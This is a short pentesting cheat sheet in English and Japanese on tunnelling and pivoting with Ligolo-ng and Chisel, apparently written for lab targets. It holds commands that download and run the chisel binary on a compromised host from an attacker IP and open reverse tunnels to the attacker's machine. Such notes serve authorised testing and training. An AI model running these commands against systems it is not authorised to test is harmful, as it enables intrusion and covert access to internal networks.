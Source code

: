 ## Ligolo-ng
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Kali machine - Attacker machine
./proxy -laddr <LHOST>:9001 -selfcert

#windows or linux machine - compromised machine
./agent -connect <LHOST>:9001 -ignore-cert

#In Ligolo-ng console
session #select host
ifconfig #Notedown the internal network's subnet
start #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo
![image](https://github.com/user-attachments/assets/44f871d9-ae85-4f6c-8073-f1be1e0bebe4)

## Chisel
1 chiselクライアントの準備
Attacker Machine(Kali)
 ターゲットのOSに合うchiselのクライアントをgithubからダウンロード
https://github.com/jpillora/chisel/releases/tag/v1.8.1

 ウェブサーバの起動
 違うターミナルを開いてchiselサーバの起動
chisel server -p 8050 --reverse
 ターゲットマシン(Ubuntu)
 chiselクライアントのダウンロード
 解凍
 chiselクライアントの実行
./chisel client

### Local Port Fowerding


Target Machineのローカルで動いているサービス（1270.0.1:9000やDockerなど）にアクセスしたいときに使用

#### Attacker Machine(Kali)
1 chiselクライアントの準備

 ターゲットのOSに合うchiselのクライアントをgithubからダウンロード
https://github.com/jpillora/chisel/releases/tag/v1.8.1


https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_windows_amd64.gz

ファイル名の変更
Linux用：mv chisel_1.8.1_linux_amd64.gz chisel
Windows用：mv chisel_1.8.1_windows_amd64.gz chisel

 2 ウェブサーバの起動
python3 -m http.server

 3 違うターミナルを開いてchiselサーバの起動
chisel server -p 8050 --reverse
![image](https://github.com/user-attachments/assets/26e564ff-25de-46de-9946-62e81fbf671d)


#### ターゲットマシン(Ubuntu)
1 chiselクライアントのダウンロード
wget http://10.10.14.120:8000/chisel

2 解凍
gzip -d chisel

3 権限の付与
chmod +x chisel

4 chiselクライアントの実行
./chisel client 10.10.14.120:8050 R:9000:127.0.0.1:9000
![image](https://github.com/user-attachments/assets/c6439bc4-eb14-48c6-9572-3dae508a2858)


#### Attacker Machine(Kali)
①攻撃マシンのブラウザ上で127.0.0.1:9000にアクセスすると、
ターゲットの127.0.0.1:9000にアクセスできる

